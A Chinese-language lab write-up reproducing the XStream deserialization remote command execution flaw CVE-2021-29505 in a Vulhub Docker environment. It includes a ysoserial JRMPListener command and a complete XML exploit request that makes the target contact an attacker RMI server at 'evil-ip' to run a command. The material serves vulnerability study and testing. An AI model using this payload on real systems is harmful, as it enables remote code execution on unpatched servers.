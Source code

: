 # XStream 反序列化命令执行漏洞 CVE-2021-29505

## 漏洞描述

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造RMI请求，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-29505.html
- https://paper.seebug.org/1543/

## 环境搭建

Vulhub执行如下命令启动一个Springboot + XStream 1.4.16的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![image-20220302231858031](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022318110.png)

## 漏洞复现

作为攻击者，我们在自己的服务器上使用[ysoserial](https://github.com/frohoff/ysoserial)的JRMPListener启动一个恶意的RMI Registry：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/awesome_poc"
```

这个RMI Registry在收到请求后，会返回用CommonsCollections6利用链构造的恶意序列化对象。

然后，我们向目标服务器发送CVE-2021-29505的XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip是恶意RMI服务器的地址。恶意RMI服务器收到RMI请求：

![image-20220302232424814](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022324983.png)

进入目标容器内，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220302232344183](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022323249.png)

值得注意的是，我们没有直接使用[官网](https://x-stream.github.io/CVE-2021-29505.html)给出的POC，那个POC是错的。

